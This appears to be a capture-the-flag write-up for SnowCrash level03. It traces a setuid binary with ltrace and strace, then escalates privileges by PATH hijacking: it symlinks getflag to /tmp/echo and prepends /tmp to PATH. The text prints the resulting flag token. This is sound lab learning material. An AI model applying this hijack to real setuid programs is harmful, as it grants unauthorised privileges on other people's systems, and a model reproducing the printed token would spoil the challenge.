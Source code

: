 # A classic

```sh
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

According to chmod's man "s" rights are to:
`set user or group ID on execution (s)`
> It is a security tool that permits users to run certain programs with escalated privileges

```sh
level03@SnowCrash:~$ ./level03
Exploit me
```

## Analyse

## ltrace

> ltrace to see lib calls

```sh
[...]
getegid() //get effective groupId
geteuid() /get effective userId
[...]
system("/usr/bin/env echo Exploit me"Exploit me //pass env et execut with it
```

## strace

> strace to see system calls

> real id = user id (in shell)

> effective uid = run time user id

```sh
[...]
//getegid
//geteuid
setresgid32(2003, 2003, 2003) //set le groupe pour avoir les droits
setresuid32(2003, 2003, 2003) //set le user pour avoir les droits
[...]
```

# Dig

`cat /usr/bin/env` show smiley and kill the ssh connection (thank you 42)

We can see that echo is not call with the full path so:

```sh
level03@SnowCrash:/tmp$ whereis echo
echo: /bin/echo /usr/share/man/man1/echo.1.gz
level03@SnowCrash:/tmp$ whereis getflag
getflag: /bin/getflag
level03@SnowCrash:/tmp$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:/tmp$ export PATH="/tmp/:$PATH"
```

> /tmp is the only directory where I can write

# The revelation

`
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
`

getflag is run with run time user (and therefore his rights)
